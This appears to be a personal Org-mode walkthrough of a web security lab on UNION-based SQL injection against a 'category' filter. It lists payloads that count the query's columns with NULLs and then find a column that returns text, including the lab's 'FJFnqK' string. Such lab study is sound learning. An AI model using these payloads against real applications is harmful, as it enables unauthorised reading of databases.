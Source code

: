 #+title: SQL injection UNION attack, finding a column containing text

* About
Sql injection on ~category~ filter

** End Goal
Identify a column that is compatible with ~string~ data

* Steps
** Step 1
+ Determine first how many column are there

#+begin_src sql
'UNION SELECT NULL --
#+end_src

+ If gives error
#+begin_src sql
'UNION SELECT NULL, NULL --
#+end_src
and so on

#+begin_src sql
'UNION SELECT NULL, NULL, NULL --
#+end_src
gives 200 response

** Step 2
Now find out which column support string value
#+begin_src sql
'UNION SELECT 'abc', NULL, NULL --
#+end_src
: gives error
#+begin_src sql
'UNION SELECT NULL, 'abc', NULL --
#+end_src
: success

Now find out similar like this line ~Make the database retrieve the string: 'FJFnqK'~

Now replace that string value with abc
#+begin_src sql
'UNION SELECT NULL, 'FJFnqK', NULL --
#+end_src
